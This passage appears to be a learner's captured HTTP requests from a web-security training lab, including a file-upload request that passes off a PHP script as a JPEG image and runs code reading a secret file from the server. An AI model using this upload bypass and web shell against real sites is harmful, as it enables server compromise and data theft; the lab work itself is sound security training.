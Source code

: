 ```python
------WebKitFormBoundaryst7AA5drUvw3CJ07
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryst7AA5drUvw3CJ07
Content-Disposition: form-data; name="csrf"

SsIo5Fx3ho5EaMuJDTVqU0oLQmxEm1ym
------WebKitFormBoundaryst7AA5drUvw3CJ07--












PRIMERA MODIFICACION:





POST /my-account/avatar HTTP/2
Host: 0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net
Cookie: session=uhnJSlUHYWt4hbcGZI22owgj9usoXTRi
Content-Length: 415
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryst7AA5drUvw3CJ07
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

------WebKitFormBoundaryst7AA5drUvw3CJ07
Content-Disposition: form-data; name="avatar"; filename="shellpaimonsitodos.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>

------WebKitFormBoundaryst7AA5drUvw3CJ07
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryst7AA5drUvw3CJ07
Content-Disposition: form-data; name="csrf"

```
